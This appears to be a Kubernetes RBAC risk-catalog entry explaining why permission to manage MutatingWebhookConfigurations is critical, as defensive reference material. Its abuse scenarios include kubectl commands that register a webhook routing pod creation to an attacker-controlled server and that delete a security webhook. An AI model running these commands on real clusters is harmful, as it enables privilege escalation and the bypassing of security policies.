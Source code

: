 ```yaml
---
id: 1043
title: "Manage MutatingWebhookConfigurations"
description: "Grants control over MutatingWebhookConfigurations, which can modify API objects during admission. This is extremely critical as an attacker can create or alter webhooks to inject malicious configurations, escalate privileges, bypass security policies, or cause denial of service."
category: Tampering
risk_level: RiskLevelCritical
date: ""
---
```


## Overview

| Field         | Value                                                                                                                     |
| ------------- | ------------------------------------------------------------------------------------------------------------------------- |
| ID            | 1043                                                                                                                      |
| Name          | Manage MutatingWebhookConfigurations                                                                                      |
| Risk Category | Tampering                                                                                                                 |
| Risk Level    | {{< risk Critical >}}                                                                                                     |
| Role Type     | ClusterRole                                                                                                               |
| API Groups    | admissionregistration.k8s.io                                                                                              |
| Resources     | mutatingwebhookconfigurations                                                                                             |
| Verbs         | create, update, patch, delete                                                                                             |
| Tags          | {{< tag "DenialOfService" >}} {{< tag "PrivilegeEscalation" >}} {{< tag "Tampering" >}} {{< tag "WebhookManipulation" >}} |

## Description

Grants control over MutatingWebhookConfigurations, which can modify API objects during admission. This is extremely critical as an attacker can create or alter webhooks to inject malicious configurations, escalate privileges, bypass security policies, or cause denial of service.

## Abuse Scenarios

1. Create a new MutatingWebhookConfiguration to inject privileged containers into pods.

```bash {copy=true}
kubectl create -f - <<EOF
apiVersion: admissionregistration.k8s.io/v1
kind: MutatingWebhookConfiguration
metadata:
  name: privileged-injector
webhooks:
- name: privileged-injector.example.com
  clientConfig:
    url: "https://<malicious-webhook-server>/mutate" # Attacker-controlled server
    caBundle: <base64-encoded-ca-cert> # Self-signed CA for attacker's server
  rules:
  - operations: ["CREATE"]
    apiGroups: [""]
    apiVersions: ["v1"]
    resources: ["pods"]
  admissionReviewVersions: ["v1", "v1beta1"]
  sideEffects: None
  failurePolicy: Ignore # To avoid breaking legitimate operations
EOF
# Example: kubectl create -f - <<EOF ... EOF

```

2. Delete a critical MutatingWebhookConfiguration, potentially bypassing security policies.

```bash {copy=true}
kubectl delete mutatingwebhookconfiguration <webhook-name>
# Example: kubectl delete mutatingwebhookconfiguration pod-defaults-webhook

```
